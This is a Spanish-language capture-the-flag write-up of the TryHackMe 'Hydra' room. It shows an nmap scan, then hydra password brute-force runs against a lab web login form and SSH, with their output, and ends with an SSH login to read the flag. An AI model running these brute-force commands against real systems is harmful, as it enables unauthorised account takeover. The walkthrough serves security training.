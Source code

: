 ```yaml
---
title: Try Hack Me - Hydra - Writeup
date: 2022-09-20 09:30:00 +0800
categories: ["Try Hack Me"]
tags: [thm, writeups]     # TAG names should always be lowercase
---
```


En esta guía vamos a resolver el room [Hydra](https://tryhackme.com/room/hydra) de [THM](https://tryhackme.com) creado por [cmnatic](https://tryhackme.com/p/cmnatic) en el que utilizaremos **hydra** como herramienta (no se podía saber).

Dentro música.

## Inicio

Para empezar, nos leemos con atención la descripción que acompaña la tarea 2 del room en la cual nos dan:

* las claves de los comandos que deberemos utilizar.
* el nombre de un usuario.

Iniciamos la máquina y enumeramos con **nmap**.

## Enumeración

En este caso, tiramos de la flag `-A`&nbsp; para hacer un escaneo completo.

```console
┌──(ewan67㉿kali)-[~/Documents/Cybersecurity/THM/Hydra]
└─$ nmap -A 10.10.192.81 -oN nmap_output           
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-20 14:59 CEST
Nmap scan report for 10.10.192.81
Host is up (0.035s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c2:e5:6c:35:f3:62:07:77:d7:af:37:b9:b2:c8:5e:22 (RSA)
|   256 ef:61:6c:5e:04:db:87:61:02:60:0e:9e:d5:06:9f:9c (ECDSA)
|_  256 56:7e:6b:54:4c:26:22:ec:f4:1c:23:ed:85:b6:b2:34 (ED25519)
80/tcp open  http    Node.js Express framework
| http-title: Hydra Challenge
|_Requested resource was /login
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.40 seconds
```

Significado de las flags:

* `-A`&nbsp;: escaneo completo (ejecuta OS detection, version detection, script scanning y traceroute)
* `-oN`&nbsp;: imprime la salida en un fichero de texto con el nombre *nmap_output*

El volcado de **nmap** nos cuenta que tenemos dos puertos abiertos:

* *22/tcp* con un servicio **ssh** escuchando.
* *80/tcp* con un servicio **http** escuchando.

## HTTP

Abrimos un navegador y cargamos la IP del room.

Nos aparece la página de login.

![](/assets/posts/20220920/img01.png)

OK. En una nueva ventana de terminal buscamos un diccionario para utilizar con **hydra** contando con que tenemos un nombre de usuario.

> **Tip:** Leeros el Hint de la primer pregunta. Yo no lo hice.

<br>

```console
┌──(ewan67㉿kali)-[~]
└─$ cd /usr/share/seclists/

┌──(ewan67㉿kali)-[/usr/share/seclists]
└─$ ls              
Discovery  Fuzzing  IOCs  Miscellaneous  Passwords  Pattern-Matching  Payloads  README.md  Usernames  Web-Shells

┌──(ewan67㉿kali)-[/usr/share/seclists]
└─$ cd Passwords           

┌──(ewan67㉿kali)-[/usr/share/seclists/Passwords]
└─$ ls -la
total 258624
drwxr-xr-x 12 root root    12288 Aug  3 08:19 .
drwxr-xr-x 11 root root     4096 Aug  3 08:19 ..
-rw-r--r--  1 root root     1621 Aug  2 11:51 2020-200_most_used_passwords.txt
[...]
```

Me quedo con el primero, *2020-200_most_used_passwords*&nbsp; suena suficiente para empezar.

Volvemos al terminal de la carpeta de trabajo y lanzamos **hydra**.

```console
┌──(ewan67㉿kali)-[~/Documents/Cybersecurity/THM/Hydra]
└─$ hydra -l molly -P /usr/share/seclists/Passwords/2020-200_most_used_passwords.txt 10.10.192.81 http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-09-20 15:33:15
[DATA] max 16 tasks per 1 server, overall 16 tasks, 200 login tries (l:1/p:200), ~13 tries per task
[DATA] attacking http-post-form://10.10.192.81:80/login:username=^USER^&password=^PASS^:F=incorrect
[ATTEMPT] target 10.10.192.81 - login "molly" - pass "123456" - 1 of 200 [child 0] (0/0)
[ATTEMPT] target 10.10.192.81 - login "molly" - pass "123456789" - 2 of 200 [child 1] (0/0)
[...]
[ATTEMPT] target 10.10.192.81 - login "molly" - pass "12345678" - 5 of 200 [child 4] (0/0)
[ATTEMPT] target 10.10.192.81 - login "molly" - pass "aaaaaa" - 59 of 200 [child 2] (0/0)
[80][http-post-form] host: 10.10.192.81   login: molly   password: <MODIFICADO>
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-09-20 15:33:19
```

Volvemos al navegador, introducimos las credenciales y obtenemos la primer flag.

Vamos a por la segunda.

## SSH

Con la lección aprendida, cambiamos de diccionario y lanzamos el comando correspondiente al *ssh*.

```console
┌──(ewan67㉿kali)-[~/Documents/Cybersecurity/THM/Hydra]
└─$ hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.192.81 ssh -V
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-09-20 15:59:18
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.192.81:22/
[ATTEMPT] target 10.10.192.81 - login "molly" - pass "123456" - 1 of 14344399 [child 0] (0/0)
[ATTEMPT] target 10.10.192.81 - login "molly" - pass "12345" - 2 of 14344399 [child 1] (0/0)
[...]
[ATTEMPT] target 10.10.192.81 - login "molly" - pass "jordan" - 35 of 14344400 [child 4] (0/1)
[ATTEMPT] target 10.10.192.81 - login "molly" - pass "liverpool" - 36 of 14344400 [child 11] (0/1)
[22][ssh] host: 10.10.192.81   login: molly   password: <MODIFICADO>
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-09-20 15:59:26
```

Tenemos la contraseña. Conectamos por *ssh*.

```console
┌──(ewan67㉿kali)-[~/Documents/Cybersecurity/THM/Hydra]
└─$ ssh molly@10.10.192.81
molly@10.10.192.81's password:
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-1092-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

65 packages can be updated.
32 updates are security updates.

Last login: Tue Dec 17 14:37:49 2019 from 10.8.11.98
molly@ip-10-10-192-81:~$ ls
flag2.txt
molly@ip-10-10-192-81:~$ cat flag2.txt 
THM{<MODIFICADO>}
molly@ip-10-10-192-81:~$ 
```

Segunda flag y final de show.

Espero que esta guía os haya resultado de ayuda.

Sed buenos si no hay una opción mejor.